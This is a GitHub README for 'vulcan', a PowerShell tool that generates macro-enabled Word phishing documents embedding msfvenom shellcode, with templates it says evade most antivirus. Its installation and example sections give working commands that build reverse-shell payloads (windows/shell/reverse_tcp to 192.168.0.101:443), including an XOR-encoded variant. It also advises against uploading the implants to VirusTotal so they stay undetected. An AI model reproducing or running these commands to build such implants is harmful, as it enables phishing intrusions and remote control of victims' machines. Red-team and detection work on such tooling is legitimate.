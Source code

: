 # vulcan

[![Language](https://img.shields.io/badge/Lang-PowerShell-blue.svg)](https://docs.microsoft.com/en-gb/powershell/)
[![License](https://img.shields.io/badge/License-BSD%203-red.svg)](https://opensource.org/licenses/BSD-3-Clause)

## A `PowerShell` script that simplifies life and therefore... phishing. 🎣

A `PowerShell` script to automate the creation of consitent and efficient macro-enabled `Word` documents. At the time of writing, the `indirect` template yields great results at evading most AVs, including `Windows Defender` in some cases.

This `PowerShell` script can be viewed as *kind of* a third-party add-on to [MSFVenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/) - made possible thanks to [Windows Subsystem for Linux](https://docs.microsoft.com/en-us/windows/wsl/install) - that leverage templates to quickly and easily - *encoded* - create `Word` implants.

Users/stargazers are greatly encouraged toward contributing to improving and extending this project. 🐺

### ⚠️ Do not be a dummy... Do not submit the produced implants to VirusTotal. 🤢

## Features

- `Visual Basic` templating (`.\assets\templates`) -> **do not hesitate to submit new templates**.
- Decoding routines/functions (`.\assets\decoders`) -> **do not hesitate to submit new templates**.
- Fine-tuning of *bloody* `Visual Basic` line-continuation using `-Treshold`.

## Requirements

- [Windows Subsystem for Linux](https://docs.microsoft.com/en-us/windows/wsl/install) with [MSFVenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/) installed.

## Installation

1. Clone/download `vulcan`:

    ```powershell
    git clone https://github.com/aress31/vulcan
    cd vulcan
    ```

2. Import `vulcan`:

    ```powershell
    . .\Invoke-Vulcan.ps1
    ```

3. Run `vulcan`:

    ```powershell
    wsl --exec msfvenom -p windows/shell/reverse_tcp LHOST=192.168.0.101 LPORT=443 EXITFUNC=thread -f hex | `
        Invoke-Vulcan -OutputDirectory ".\winwords\" -Template ".\assets\templates\indirect.vba"
    ```

> Although obvious, `windows/shell/reverse_tcp LHOST=192.168.0.101 LPORT=443 EXITFUNC=thread` is a placeholder for your own values... 🙄

## Usage

`Get-Help -Name Invoke-Vulcan` is your friend... Your best friend is `Get-Help -Name Invoke-Vulcan -Detailed`. Nonetheless, `Invoke-Vulcan` must be fed a `hex`-formatted shellcode. This can be achieved with:

```powershell
    Get-Content -Path $ShellCode -AsByteStream -Raw | Invoke-Vulcan ...
```

```powershell
    wsl --exec msfvenom ... -f hex | Invoke-Vulcan ...
```

### Examples

- Embed a non-encoded shellcode:

    ```powershell
    wsl --exec msfvenom -p windows/shell/reverse_tcp LHOST=192.168.0.101 LPORT=443 EXITFUNC=thread -f hex | 
            Invoke-Vulcan -OutputDirectory ".\winwords\" -Template ".\assets\templates\indirect.vba"
    ```

> Although obvious, `windows/shell/reverse_tcp LHOST=192.168.0.101 LPORT=443 EXITFUNC=thread` is a placeholder for your own values... 🙄

- Embed a `XOR`-encoded shellcode:

    ```powershell
    wsl --exec msfvenom -p windows/shell/reverse_tcp LHOST=192.168.0.101 LPORT=443 EXITFUNC=thread -f hex | 
            Invoke-Vulcan -OutputDirectory ".\winwords\" -Template ".\assets\templates\indirect.vba" -Decoder xor -DecoderPath ".\assets\decoders\xor.vba" -CaesarShift 5
    ```

> Although obvious, `windows/shell/reverse_tcp LHOST=192.168.0.101 LPORT=443 EXITFUNC=thread` is a placeholder for your own values... 🙄

## Sponsor 💓

If you want to support this project and appreciate the time invested in developping, maintening and extending it; consider donating toward my next (cup of coffee ☕/lamborghini 🚗) - as **a lot** of my **personal time** went into creating this project. 😪

It is easy, all you got to do is press the `Sponsor` button at the top of this page or alternatively [click this link](https://github.com/sponsors/aress31). 😁

## Reporting Issues

Found a bug 🐛? I would love to squash it!

Please report all issues on the GitHub [issues tracker](https://github.com/aress31/vulcan/issues).

## Contributing

You would like to contribute to better this project? 🤩

Please submit all `PRs` on the GitHub [pull requests tracker](https://github.com/aress31/vulcan/pulls).

## Acknowledgements

Give to Caesar what belongs to Caesar:

- [MSFVenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/)

## License

`vulcan` is primarily distributed under the terms of the `BSD 3`.

See [LICENSE](./LICENSE) for details.
